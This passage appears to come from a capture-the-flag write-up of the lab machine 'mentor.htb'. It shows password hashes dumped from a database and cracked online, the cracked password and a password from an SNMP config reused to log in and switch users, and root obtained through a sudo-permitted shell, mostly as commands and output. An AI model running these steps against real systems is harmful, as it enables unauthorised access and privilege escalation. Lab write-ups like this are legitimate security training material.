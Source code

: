 However, that's not immediately useful.

I pick up a hash for the `svc` user:

```sql
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)
```

Crackstation has an entry for it: `123meunomeeivani`

I try that username and password on the main target IP for SSH and it works:

```console
$ ssh svc@mentor.htb
...
Last login: Mon Dec 12 10:22:58 2022 from 10.10.14.40
svc@mentor:~$
```

LinPEAS turns up a password:

```console
╔══════════╣ Analyzing SNMP Files (limit 70)
-rw-r--r-- 1 root root 3453 Jun  5  2022 /etc/snmp/snmpd.conf
# rocommunity: a SNMPv1/SNMPv2c read-only access community name
rocommunity  public default -V systemonly
rocommunity6 public default -V systemonly
createUser bootstrap MD5 SuperSecurePassword123__ DES
-rw------- 1 Debian-snmp Debian-snmp 1268 Jan  2 17:21 /var/lib/snmp/snmpd.conf
```

On my first pass I thought that was a boilerplate config sample password, but it's not:

```console
svc@mentor:~$ su - james
Password:
james@mentor:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```

The rest is very easy:

```console
james@mentor:~$ sudo -l
[sudo] password for james:

Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

james@mentor:~$ sudo /bin/sh -p
# id
uid=0(root) gid=0(root) groups=0(root)
```
